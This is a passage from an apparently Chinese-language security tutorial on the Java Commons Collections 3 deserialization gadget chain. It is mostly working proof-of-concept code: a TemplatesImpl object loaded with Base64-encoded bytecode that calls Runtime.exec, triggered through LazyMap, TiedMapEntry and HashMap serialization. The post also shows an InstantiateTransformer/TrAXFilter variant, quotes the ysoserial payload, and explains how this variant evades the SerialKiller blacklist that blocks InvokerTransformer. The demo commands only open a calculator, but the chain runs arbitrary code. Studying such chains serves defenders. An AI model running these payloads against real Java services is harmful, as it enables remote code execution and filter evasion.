        byte[] code = Base64.getDecoder().decode("yv66vgAAADMAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BAAhjYWxjLmV4ZQwAMAAxAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAKEJhc2UvVW5zZXJpYWxpemUvQmFzZS9IZWxsb1RlbXBsYXRlc0ltcGwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAkACgAAAAAABAABAAsADAACAA0AAAAZAAAAAwAAAAGxAAAAAQAOAAAABgABAAAACgAPAAAABAABABAAAQALABEAAgANAAAAGQAAAAQAAAABsQAAAAEADgAAAAYAAQAAAAwADwAAAAQAAQAQAAEAEgATAAEADQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAA4AAAAOAAMAAAAPAAQAEAAMABEACAAUABMAAQANAAAAQwACAAEAAAAOuAAFEga2AAdXpwAES7EAAQAAAAkADAAIAAIADgAAAA4AAwAAABQACQAVAA0AFgAVAAAABwACTAcAFgAAAQAXAAAAAgAY");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ code });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        obj.newTransformer();
    }
}
```

我们只需要结合这两段POC，即可很容易地改造出⼀个执⾏任意字节码的CommonsCollections利⽤链：

只需要将第⼀个demo中InvokerTransformer执⾏的“⽅法”改成TemplatesImpl::newTransformer() ，并且属性赋值

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(obj),
                new InvokerTransformer(newTransformer,null,null),
        };
```

不使用ysoserial的`setFieldValue`自己写一个反射修改`private`属性的值

```java
package Base.Unserialize.Base;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ code });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        obj.newTransformer();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

现在再把两段代码合起来就行了

```java
package Base.Unserialize.CC;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

是不是很有CC1的味道，那接下来如果要作为一个合格的POC，可以使用`sun.reflect.annotation.AnnotationInvocationHandler#readObject`但是，这样会限制版本，也可以使用`LazyMap#get`但是也还是会限制版本，鉴于CC6的处理，gadgets如下

```java
HashMap.readObject()
  → TiedMapEntry.hashCode() 
    → TiedMapEntry.getValue() 
      → LazyMap.get() 
        → ChainedTransformer.transform() 
          → TemplatesImpl.newTransformer() 
            → 加载恶意字节码
```

写出如下POC

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3Seri {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] real = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        Transformer chain = new ChainedTransformer(fake);
        Map inner = new HashMap();
        Map lazy = LazyMap.decorate(inner, chain);

        TiedMapEntry entry = new TiedMapEntry(lazy, "key");
        Map exp = new HashMap();
        exp.put(entry, "value");
        lazy.remove("key");

        setFieldValue(chain, "iTransformers", real);

        byte[] ser = serialize(exp);
        unserialize(ser);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        new ObjectOutputStream(baos).writeObject(obj);
        return baos.toByteArray();
    }

    private static void unserialize(byte[] bytes) throws Exception {
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    }
}
```

完整的调用栈如下

```java
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:155)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:120)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections3Seri.unserialize(CommonsCollections3Seri.java:58)
at Base.Unserialize.CC.CommonsCollections3Seri.main(CommonsCollections3Seri.java:42)
```

### Ysoserial

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections3.java

```java
package ysoserial.payloads;

import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

import javax.xml.transform.Templates;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;

/*
 * Variation on CommonsCollections1 that uses InstantiateTransformer instead of
 * InvokerTransformer.
 */
@SuppressWarnings({"rawtypes", "unchecked", "restriction"})
@PayloadTest ( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.FROHOFF })
public class CommonsCollections3 extends PayloadRunner implements ObjectPayload<Object> {

	public Object getObject(final String command) throws Exception {
		Object templatesImpl = Gadgets.createTemplatesImpl(command);

		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(TrAXFilter.class),
				new InstantiateTransformer(
						new Class[] { Templates.class },
						new Object[] { templatesImpl } )};

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections3.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}
```

和我写的唯一差别就是`transformers`，它是用的`InstantiateTransformer` 动态实例化 `TrAXFilter`，`TrAXFilter` 构造器内部会调用 `TemplatesImpl.newTransformer()`

原因很简单就是绕过黑名单，当时议题发布之后，也会有很多的防御策略，SerialKiller是⼀个Java反序列化过滤器，可以通过⿊名单与⽩名单的⽅式来限制反序列化时允许通过的 类。在其发布的第⼀个版本代码中，我们可以看到其给出了最初的黑名单 https://github.com/ikkisoft/SerialKiller/blob/998c0abc5b/config/serialkiller.conf

```nginx
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
    <refresh>6000</refresh>
    <blacklist>
	<!-- ysoserial's CommonsCollections1 payload  -->
        <regexp>^org\.apache\.commons\.collections\.functors\.InvokerTransformer$</regexp>	
	<!-- ysoserial's CommonsCollections2 payload  -->
        <regexp>^org\.apache\.commons\.collections4\.functors\.InvokerTransformer$</regexp>
	<!-- ysoserial's Groovy payload  -->	
        <regexp>^org\.codehaus\.groovy\.runtime\.ConvertedClosure$</regexp>	
        <regexp>^org\.codehaus\.groovy\.runtime\.MethodClosure$</regexp>	
	<!-- ysoserial's Spring1 payload  -->
	<regexp>^org\.springframework\.beans\.factory\.ObjectFactory$</regexp>	
    </blacklist>
    <whitelist>
        <regexp>.*</regexp>
    </whitelist>
</config>
```

`InvokerTransformer`赫然在列，所以CommonsCollections3的⽬的很明显，就是为了绕过⼀些规则对InvokerTransformer的限制。 

CommonsCollections3并没有使⽤到InvokerTransformer来调⽤任意⽅法，⽽是⽤到了另⼀个类， `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`。这个类的构造⽅法中调⽤了 `(TransformerImpl) templates.newTransformer()`，免去了我们使⽤ InvokerTransformer⼿⼯调⽤ `newTransformer()`⽅法这⼀步：

```java
/*
 * Copyright (c) 2017, Oracle and/or its affiliates. All rights reserved.
 */
/*
 * Copyright 2001-2004 The Apache Software Foundation.
 *
 * Licensed under the Apache License, Version 2.0 (the "License");
 * you may not use this file except in compliance with the License.
 * You may obtain a copy of the License at
 *
 *     http://www.apache.org/licenses/LICENSE-2.0
 *
 * Unless required by applicable law or agreed to in writing, software
 * distributed under the License is distributed on an "AS IS" BASIS,
 * WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
 * See the License for the specific language governing permissions and
 * limitations under the License.
 */
/*
 * $Id: TrAXFilter.java,v 1.2.4.1 2005/09/06 12:23:19 pvedula Exp $
 */


package com.sun.org.apache.xalan.internal.xsltc.trax;

import java.io.IOException;

import javax.xml.transform.ErrorListener;
import javax.xml.transform.Templates;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import javax.xml.transform.sax.SAXResult;

import com.sun.org.apache.xml.internal.utils.XMLReaderManager;
import jdk.xml.internal.JdkXmlUtils;

import org.xml.sax.ContentHandler;
import org.xml.sax.InputSource;
import org.xml.sax.SAXException;
import org.xml.sax.XMLReader;
import org.xml.sax.helpers.XMLFilterImpl;

/**
 * skeleton extension of XMLFilterImpl for now.
 * @author Santiago Pericas-Geertsen
 * @author G. Todd Miller
 */
public class TrAXFilter extends XMLFilterImpl {
    private Templates              _templates;
    private TransformerImpl        _transformer;
    private TransformerHandlerImpl _transformerHandler;
    private boolean _overrideDefaultParser;

    public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _overrideDefaultParser = _transformer.overrideDefaultParser();
    }

    public Transformer getTransformer() {
        return _transformer;
    }

    private void createParent() throws SAXException {
        XMLReader parent = JdkXmlUtils.getXMLReader(_overrideDefaultParser,
                                                    _transformer.isSecureProcessing());

        // make this XMLReader the parent of this filter
        setParent(parent);
    }

    @Override
    public void parse (InputSource input) throws SAXException, IOException
    {
        XMLReader managedReader = null;

        try {
            if (getParent() == null) {
                try {
                    managedReader = XMLReaderManager.getInstance(_overrideDefaultParser)
                    .getXMLReader();
                    setParent(managedReader);
                } catch (SAXException  e) {
                    throw new SAXException(e.toString());
                }
            }

                // call parse on the parent
            getParent().parse(input);
        } finally {
            if (managedReader != null) {
                XMLReaderManager.getInstance(_overrideDefaultParser).releaseXMLReader(managedReader);
            }
        }
    }

    public void parse (String systemId) throws SAXException, IOException
    {
        parse(new InputSource(systemId));
    }

    public void setContentHandler (ContentHandler handler)
    {
        _transformerHandler.setResult(new SAXResult(handler));
        if (getParent() == null) {
                try {
                    createParent();
                }
                catch (SAXException  e) {
                   return;
                }
        }
        getParent().setContentHandler(_transformerHandler);
    }

    public void setErrorListener (ErrorListener handler) { }
}
```



但是问题就是没有`InvokerTransformer`如何去调用呢

这⾥会⽤到⼀个新的Transformer，`org.apache.commons.collections.functors.InstantiateTransformer`。 `InstantiateTransformer`也是⼀个实现了Transformer接⼝的类，他的作⽤就是调⽤构造⽅法。 

所以，可以利⽤`InstantiateTransforme` 来调⽤到 TrAXFilter 的构造⽅法，再利 ⽤其构造⽅法⾥的 templates.newTransformer()调⽤到TemplatesImpl⾥的字节码。

最终POC如下：

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3Seri {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] real = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] {Templates.class},
                        new Object[] {templates}
                )
        };

        Transformer chain = new ChainedTransformer(fake);
        Map inner = new HashMap();
